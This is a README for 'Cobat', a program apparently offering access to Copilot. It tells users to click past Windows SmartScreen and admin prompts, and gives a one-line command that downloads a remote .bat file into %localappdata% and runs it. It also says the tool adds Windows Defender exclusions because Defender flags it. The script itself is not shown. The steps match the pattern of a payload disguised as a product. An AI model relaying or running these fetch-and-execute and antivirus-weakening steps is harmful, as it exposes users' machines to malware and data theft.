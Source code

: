 # Cobat
An open source program that makes Copilot available to anyone. 

Join the discord https://discord.gg/h7pPjcwSMX




# Guide (Batch install)
1. Download `Cobat.bat` from releases and double click to run it. 
2. Press more info then run anyway. 
3. Click yes when the pop up appears. 
4. Now just follow the prompts. 



# Guide (One line cmd install)
1. Paste this into cmd and press enter. 
  ````powershell
powershell -c "Invoke-WebRequest -Uri 'https://github.com/NOTNA9015/Cobat/releases/download/Pull/Cobat.bat' -OutFile '%localappdata%\Cobat.bat'" & cd %localappdata% & Cobat.bat
  ````
2. Click yes when the pop up appears. 
3. Now just follow the prompts. 



# Please note
Cobat adds a lot of exclusions to a buch of different folders since windows defender is not a huge fan. Which could open doors to real malware so use at your own risk. 
### If you have any other antivirus than windows defender you have the add the exclusions manually.
